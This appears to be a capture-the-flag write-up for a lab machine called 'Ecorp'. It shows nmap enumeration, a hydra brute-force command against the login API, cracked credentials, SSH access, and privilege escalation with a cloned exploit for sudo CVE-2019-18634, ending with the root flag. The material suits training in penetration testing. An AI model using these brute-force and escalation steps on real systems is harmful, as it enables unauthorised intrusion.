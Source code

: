 # Ecorp

## Enumeration
```bash
└─$ nmap  -sV -A -p- -sC  10.10.145.194             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 21:17 BST
Nmap scan report for 10.10.145.194
Host is up (0.045s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - E-Corp
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - E-Corp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.52 seconds
```
## Exploitation

#### source code of /login :
```
password = <!-- Remember the company policy: color + two digits number -->
```
### We can answer the web site for an hint for a password user, so I try to brute force it and I got the elliot hint 

```{"hint":"All is not black or white","username":"elliot"}```

### After a long time of research, wordlist creation and brute force tries i got the password 

#### run this command with hydra
```bash
hydra -P final -l elliot 10.10.115.29 http-post-form "/api/user/login:{"username"=^USER^, "password"=^PWD^}:Invalid Username Or Password"
```
#### and i got this
```
{username : "elliot", password : "darkgray37"}
```
```bash
echo "Im_M1st3r_R0b0T" | ssh elliot@<IP> 
```
## Privilege Escalation

### I run linpeas and find a CVE that I already use in another CTF : CVE-2019-18634
```bash
git clone git@github.com:saleemrashid/sudo-cve-2019-18634.git
```
### I create a python server to transfer the binary

```bash
chmod +x exploit ; ./exploit
```
## Root FLAG

```cd /root ; cat `ls` ```: EPI{C0nTr0L_Is_4N_Il7uS10n}






